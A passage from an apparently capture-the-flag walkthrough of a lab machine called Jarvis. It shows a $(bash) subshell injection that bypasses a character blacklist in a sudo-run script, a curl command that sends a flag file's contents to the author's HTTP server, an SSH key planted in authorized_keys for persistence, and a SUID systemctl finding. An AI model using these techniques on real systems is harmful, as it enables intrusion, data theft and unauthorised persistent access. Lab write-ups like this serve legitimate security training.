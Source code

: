 Reviewing the script, we can see that the -p option to ping an IP address uses os.system and passes user supplied input to the command to be executed. This is gennerally VERY dangerous. The script author blacklisted a bunch of normal special characters used for command injection, so trying something like `127.0.0.1 && cat /etc/password` won't work. However, subshell commands did work!

```
sudo -u pepper -- /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash)
$(bash)
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
cat /home/pepper/user.txt
```
Annoyingly, whenever I tried to run a command, I'd normally just get the command echo'd back to me. To get around this, I spun up a local HTTP server using python (`python3 -m http.server`) and used cURL to exfiltrate the user flag

```
curl 10.10.14.2:8000/`cat /home/pepper/user.txt`

#Local server logs
10.10.10.143 - - [29/Jul/2019 17:34:08] code 404, message File not found
10.10.10.143 - - [29/Jul/2019 17:34:08] "GET /2afa36c4f05b37b34259c93551f5c44f HTTP/1.1" 404 -
```

So now, how do we get an easier to use command shell?

Let's just add our SSH key to Pepper's authorised SSH keys!

```
pepper@jarvis:~$ mkdir .ssh && echo "MY SSH KEY" > .ssh/authorized_keys
```

Now we can log in as Pepper over SSH, which will let us actually see our command output. My next step was to upload a copy of LinEnum to start doing some post-compromise enumeration and figure out where to go next.

What caught my eye is that this box uses Systemd and in the list of SUID files is systemctl

```
[-] SUID files:
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1 11:19 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
